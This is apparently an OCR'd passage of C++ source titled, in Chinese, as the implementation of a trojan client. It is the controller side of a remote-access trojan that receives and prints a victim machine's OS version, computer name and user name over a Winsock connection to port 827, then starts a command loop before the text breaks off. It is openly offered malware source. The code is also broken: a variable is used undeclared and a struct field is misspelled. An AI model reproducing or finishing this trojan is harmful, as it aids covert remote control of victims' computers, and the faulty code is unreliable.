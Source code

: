 
## 木马客户端的实现
```c++:n
#include<WinSock2.h>
#include<stdio.h>
#include<conio.h>
#pragma comment (lib,"ws2_32")

//对于获得系统信息，不能直接输出，而是需要定义一个结构体保存，以便发送给客户端。
#define NAME_LEN 20
typedef struct _SYS_INFO {
	OSVERSIONINFO OsVer;//
	char szComputerName[NAME_LEN];
	char szUserName[NAME_LEN];
}SYS_INFO, *PSYS_INFO;

VOID ShowSysInfo(PSYS_INFO SysInfo) {
	
	//wchar_t szComputerName[MAXBYTE] = { 0 };
	//wchar_t szUserName[MAXBYTE] = { 0 };
	//unsigned long nSize = MAXBYTE;
	//OSVERSIONINFO OsVer;
	//OsVer.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
	//GetVersionEx(&OsVer);
	
	if (SysInfo->OsVer.dwPlatformId == VER_PLATFORM_WIN32_NT) {
		if (SysInfo->OsVer.dwMajorVersion == 6 && OsVer.dwMinorVersion == 1) {
			printf("Windows 7 %s \r\n", OsVer.szCSDVersion);
		}
		else if (OsVer.dwMajorVersion == 5 && OsVer.dwMinorVersion == 0) {
			printf("Windows 2K \r\n");
		}
		else printf("Other system\n");
	}
	else {
		printf("Other System \r\n");
	}

	//GetComputerName(szComputerName, &nSize);

	printf("Computer Name is %s \r\n", SysInfo->szComputerName);
	//nSize = MAXBYTE;
	//GetUserName(szUserName, &nSize);
	printf("User Name is %s \r\n", SysInfo->szUserName);
}

int main() {
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);

	SOCKET ClientSock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);

	sockaddr_in ServerAddr;
	ServerAddr.sin_family = PF_INET;
	ServerAddr.sin_addr.S_un.S_adr = inet_addr("127.0.0.1");
	ServerAddr.sin_port = htons(827);

	connect(ClientSock, (SOCKADDR*)&ServerAddr, sizeof(SOCKADDR));


	while (TRUE) {
		char buff[MAXBYTE] = { 0 };
		char cmd[MAXBYTE] = { 0 };
```